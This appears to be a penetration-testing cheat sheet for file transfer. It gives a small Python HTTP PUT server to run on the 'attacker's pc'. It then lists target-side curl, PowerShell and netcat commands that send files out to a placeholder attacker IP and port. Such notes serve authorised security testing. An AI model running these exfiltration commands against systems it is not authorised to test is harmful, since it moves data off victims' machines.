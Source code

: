 :arrow_forward: Downloading a file from the server with SSH

command 

```shell
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
# e.g., scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```py
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server on attacker's pc

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target host uploads files

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```

#### nc

Using `nc` to listen on port N

```shell
nc -lnvp 4444 > /tmp/which
```

Target host uploads files

```shell
cat /usr/bin/which | nc <attacker ip> <attacker port>
```

Checking if the file is correct

attacker

```shell
md5sum /tmp/which
# e942f154ef9d9974366551d2d231d936
```

target

```shell
md5sum /usr/bin/which
# e942f154ef9d9974366551d2d231d936
```